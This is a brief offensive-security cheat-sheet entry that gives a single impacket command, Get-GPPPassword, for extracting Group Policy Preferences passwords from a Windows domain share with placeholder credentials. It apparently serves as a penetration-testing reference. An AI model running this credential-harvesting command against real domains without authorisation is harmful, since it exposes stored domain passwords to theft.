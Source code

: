 % Get-GPPPassword, impacket

# Get-GPPPassword, impacket
```sh
impacket-Get-GPPPassword "$DOMAIN"/"$USER":"$PASSWORD"@"$MACHINE_IP" -share <share> 
```
